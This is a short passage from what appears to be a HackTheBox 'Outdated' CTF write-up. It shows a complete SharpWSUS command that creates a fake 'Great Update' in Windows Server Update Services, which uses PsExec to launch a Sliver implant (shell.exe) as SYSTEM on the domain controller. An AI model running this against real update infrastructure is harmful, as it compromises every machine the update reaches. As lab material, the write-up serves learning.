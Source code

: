 i already added my shell.exe in `C:\Tools\shell.exe` to get a sliver session

and for Psexec.exe there was already in the Desktop folder of `sflower`

```bash
C:\Users\sflowers\Desktop> .\SharpWSUS.exe create /payload:"C:\Users\sflowers\Desktop\PsExec64.exe" /args:"-accepteula -s -d cmd.exe /c ""C:\Tools\shell.exe""" /title:"Great Update" /rating:Important /description:"Really important update"
```

![image.png](/assets/Images/HTB_Outdated/image%2026.png)

Approves a malicious update for the target DC under the group "Great Update"  
